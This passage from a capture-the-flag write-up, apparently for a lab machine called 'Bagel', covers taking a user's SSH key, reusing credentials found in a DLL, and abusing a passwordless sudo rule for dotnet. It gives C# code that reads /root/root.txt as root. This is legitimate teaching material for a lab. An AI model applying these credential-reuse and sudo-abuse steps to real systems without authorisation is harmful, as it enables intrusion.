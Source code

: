 This will return back Phil's SSH key. (it will need editing to work correctly, use tr or a GUI text editor for this)

# user.txt

user.txt is located in Phil's home directory. It can be accessed after the SSH access or can be found using the same exploit we got the SSH key with, your choice.

# root.txt

Running linpeas on the target revealed some interesting finds but nothing too vulnerable. I took a while looking round the system trying the techniques of looking for SUID or SGID binaries, binaries with capabilities set, misconfigured path settings etc. Unfortunately, none of these were useful.

I was working on this machine with [@JDNTweeter](https://twitter.com/JDNTweeter) and he suggested something I should've thought of earlier. Use the creds found in the dll on developer's user account. This worked and after beginning enumeration again with sudo -l it revealed developer could run dotnet as root.

```
sudo -l

User developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
```

Now it was just a case of crafting an exploit to read root.txt.

## root.txt steps

1) Create a new dotnet project `sudo dotnet new console -n {project_name} -o .`

2) Open Program.cs and paste the following code into it
```csharp
// This code was taken from Microsoft Documentation then slightly modified to read the correct file.
class ReadFromFile
{
    static void Main()
    {
        // The files used in this example are created in the topic
        // How to: Write to a Text File. You can change the path and
        // file name to substitute text files of your own.

        // Example #1
        // Read the file as one string.
        string text = System.IO.File.ReadAllText(@"/root/root.txt");

        // Display the file contents to the console. Variable text is a string.
        System.Console.WriteLine("{0}", text);

    }
}
```
3) Save and exit this file
